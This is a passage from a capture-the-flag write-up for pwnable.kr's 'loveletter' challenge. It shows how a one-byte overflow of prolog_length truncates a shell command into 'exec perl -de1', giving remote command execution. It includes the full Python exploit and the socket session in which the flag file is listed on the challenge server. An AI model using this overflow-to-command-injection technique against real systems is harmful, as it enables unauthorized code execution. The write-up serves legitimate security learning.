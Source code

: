 `&AAAAAAAAAAAAAAAA...`

would be converted to:

`♥AAAAAAAAAAAAAAAA...`

which is 2 bytes longer. Because of the nullbyte, it will overflow by 1 byte. Of course we can overflow by much more, but actually 1 byte is all we need. 

The one byte we overflow will go straight to the variable `prolog_length` which initialized before the call to `protect`, so our byte will actually take effect.

If we put the value 0x01 in the prolog_length, instead of `echo I love` we will get `e`

Now Imagine what we have:

`e{lover_name} very much`

what I did was inserting the following lover name:

`xec perl -de1 & AAAAAAA ... \x01`

Here is what it looks like in python code:

```python
In [130]: payload = b'xec perl -de1 &'

In [131]: payload += b'A' * (255 - len(payload) - 1) + b'\x01'

In [132]: payload
Out[132]: b'xec perl -de1 &AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x01'
```

Here is the complete solution:

```python
In [133]: payload = b'xec perl -de1 &'

In [134]: payload += b'A' * (255 - len(payload) - 1) + b'\x01'

In [135]: sock = socket.socket()

In [136]: sock.connect(('pwnable.kr', 9034))

In [137]: sock.send(payload)
Out[137]: 255

In [138]: print(sock.recv(1024).decode())

Loading DB routines from perl5db.pl version 1.49
Editor support available.

Enter h or 'h h' for help, or 'man perldebug' for more help.

main::(-e:1):   1
  DB<1> 

In [139]: sock.send(b'system("ls /home/loveletter_pwn");\n')
Out[139]: 35

In [140]: print(sock.recv(1024).decode())
flag
log
loveletter
super.pl

  DB<2> 

```